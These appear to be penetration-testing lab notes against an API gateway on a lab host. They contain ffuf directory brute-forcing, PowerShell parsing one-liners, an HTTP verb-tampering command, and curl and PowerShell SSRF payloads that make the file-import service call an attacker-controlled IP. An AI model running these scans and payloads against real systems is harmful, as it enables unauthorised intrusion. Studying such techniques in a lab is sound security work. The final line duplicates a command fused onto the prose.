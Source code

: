 directory scan:
```powershell
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u http://apigateway:8000/FUZZ -t 200 -o endpoints.json
```
We could convert the json into a hashmap and work with the object:
```powershell
$hashtable = gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable 
$hashtable.results
```
but here is a more effective one liner:
```powershell
gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable | % -process { $_.results.GetEnumerator()} | % -process {Add-Content -Path parsed-urls.txt -Value $_.url}
```
Stripped Files
```powershell
foreach ($i in gc ./parsed-urls.txt) {Add-Content -Path endpoints-stripped.txt -value $i.split('/')[3]}
```
Http verb tampering
```powershell
Invoke-RouteBuster -ActionList ./actions-only-valid.txt -Wordlist ./wordlist-only-valid.txt -Target http://apigateway:8000 -Methods get,post
```

ssrf poc:
In particular this is a good example of how to send a json payload
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://192.168.119.144/"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
```

One interesting observeration is that python3 webserver provides less information than apache. To be specific when reading the apache servers logs we are able to see the user agent of the file import microservice: axios/0.21.1
```bash
sudo systemctl start apache2
sudo systemctl status apache
sudo tail /var/log/apache2/access.log -f
```

One thing also worth mentioning is that 'Access-Control-Allow-Credentials' is set on file/import and almost every other endpoing we bruteforcedsudo tail /var/log/apache2/access.log -f

